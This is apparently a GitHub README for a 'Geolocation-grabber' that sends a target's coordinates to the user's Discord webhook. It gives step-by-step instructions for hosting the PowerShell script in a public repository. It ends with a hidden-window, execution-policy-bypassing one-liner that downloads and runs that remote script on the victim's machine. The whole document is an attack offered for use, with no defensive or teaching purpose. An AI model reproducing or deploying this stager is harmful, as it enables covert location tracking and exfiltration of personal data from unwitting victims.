 # Geolocation-grabber
Sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>Download geolocationGraber.ps1.txt<p/>
<p>Edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>Save <p/>
<p>Create a new repo in public <p/>
<p>Add file <p/>
<img src="https://user-images.githubusercontent.com/93588803/209905806-c66ec56d-fc37-4d78-8274-f7050838d199.png?raw=true" width="350" title="hover text">
<p>Click geolocationGraber.ps1.txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906165-30e731b6-a8fe-46c8-b880-86898b2a0ae1.png?raw=true" width="350"> 
<p>Click the pen<p/>
<p>Delete .txt<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906166-45d4a03e-e9c8-4852-904a-01461fb235db.png?raw=true" width="350"> 
<p>Commit changes <p/>
<p>You should be left with geolocationGraber.ps1<p/>
<p>Click it<p/>
 <img src="https://user-images.githubusercontent.com/93588803/209906167-75a9fcbd-bf67-42cc-9bb9-024a95bd70c2.png?raw=true" width="350"> 
<p>Click raw<p/>
<p>Copy that link <p/>
<p><p/>
<p>Paste that link in the line below where it says paste here <p/>

```
 PowerShell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex 
``` 
